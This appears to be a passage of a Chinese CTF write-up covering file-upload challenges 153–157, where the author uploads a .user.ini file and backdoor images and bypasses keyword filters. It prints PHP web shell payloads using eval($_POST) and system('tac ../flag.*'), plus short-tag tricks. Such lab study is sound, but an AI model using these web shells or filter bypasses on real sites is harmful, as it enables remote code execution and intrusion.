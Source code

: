 上传user.ini文件

![](https://i-blog.csdnimg.cn/blog_migrate/6af0784f7febf8fd206bc5b8a56e3f9c.png)

上传后门图片文件

![](https://i-blog.csdnimg.cn/blog_migrate/a209f465a0993fead2f40e3c80dbaac2.png)

后门链接读取flag

![](https://i-blog.csdnimg.cn/blog_migrate/247491b279c9295339bdefa203a6dd65.png)

##### 154关：关键字过滤

手法和153关一样，不同点在在于增加了对图片内容的检测，检测图片的数据里有没有恶意的代码。经过尝试发现，过滤了php。

绕过方法：

> &lt;? echo '123';?&gt; //前提是开启配置参数short_open_tags=on &lt;?=(表达式);?&gt; //不需要开启参数设置
> 
> &lt;% echo ‘123’;%&gt; //前提是开启配置参数asp_tags=on
> 
> //不需要修改参数开关

```
构造payload：<?=eval($_POST[x]);?>
```

再次上传后门文件，读取flag即可

##### 155关：关键字过滤

和上一关一模一样，不再赘述。

##### 156关：过滤关键字

和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了

经过尝试过滤的内容发现是 \[\] 绕过的手法可以参考第154关列举出来的方法

解决思路： \[\] == {}

```
构造payload：<?=eval($_POST{x});?>
```

链接后门读取flag即可

##### 157关：过滤关键字

和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了

经过尝试发现过滤的 ; 与 \[\] ，分号一旦被过滤就意味着154关的四种过滤手法失效

解决思路：直接调用系统的命令

```
构造payload：<?=system('tac ../flag.*')?>
```

直接访问upload命令就能看到结果
